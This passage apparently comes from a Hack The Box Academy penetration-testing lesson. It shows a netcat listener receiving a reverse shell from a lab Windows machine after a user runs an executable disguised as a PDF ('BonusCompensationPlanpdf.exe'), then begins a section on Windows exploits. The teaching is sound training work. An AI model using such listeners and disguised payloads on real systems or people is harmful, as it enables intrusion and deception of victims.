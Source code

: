 ![image](https://academy.hackthebox.com/storage/modules/115/winpayload.png)

If the AV was disabled all the user would need to do is double click on the file to execute and we would have a shell session.

```shell
sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
               2 Dir(s)   9,997,516,800 bytes free

```


# Infiltrating Windows

* * *

Since many of us can remember, Microsoft has dominated the home and enterprise markets for computing. In modern days, with the introduction of improved Active Directory features, more interconnectivity with cloud services, Windows subsystem for Linux, and much more, the Microsoft attack surface has grown as well.

For example, just in the last five years, there have been `3688` reported vulnerabilities just within Microsoft Products, and this number grows daily. This table was derived from [HERE](https://www.cvedetails.com/vendor/26/Microsoft.html)

* * *

#### Windows Vulnerability Table

![image](https://academy.hackthebox.com/storage/modules/115/window-vulns-table.png)

## Prominent Windows Exploits

Over the last few years, several vulnerabilities in the Windows operating system and their corresponding attacks are some of the most exploited vulnerabilities of our time. Let's discuss those for a minute:
